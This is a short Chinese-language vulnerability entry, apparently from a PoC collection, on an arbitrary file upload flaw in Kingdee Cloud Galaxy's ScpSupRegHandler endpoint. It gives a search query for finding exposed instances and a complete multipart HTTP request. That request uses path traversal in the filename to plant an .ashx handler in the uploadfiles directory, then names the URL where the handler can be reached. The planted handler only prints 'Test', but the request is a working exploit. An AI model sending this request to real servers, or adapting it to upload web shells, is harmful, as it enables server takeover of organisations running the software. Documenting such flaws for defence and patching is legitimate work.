

金蝶OA 云星空 ScpSupRegHandler 任意文件上传漏洞¶
漏洞描述¶
金蝶OA 云星空 ScpSupRegHandler 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取服务器权限
漏洞影响¶
金蝶OA 云星空
网络测绘¶
app="金蝶云星空-管理中心"
漏洞复现¶
登陆页面
poc
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host:
Accept-Encoding: identity
Content-Length: 973
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="dbId_v"
.
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FID"
2022
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/test.ashx."
Content-Type: text/plain
<%@ WebHandler Language="C#" Class="TestHandler" %>
using System;
using System.Web;
public class TestHandler : IHttpHandler {
public void
ProcessRequest (HttpContext context) {
context.Response.ContentType= "text/plain";
context.Response.Write("Test");
}
public bool IsReusable {
get {return false; }
}
}
--2ac719f8e29343df94aa4ab49e456061--

/K3Cloud/uploadfiles/Test.ashx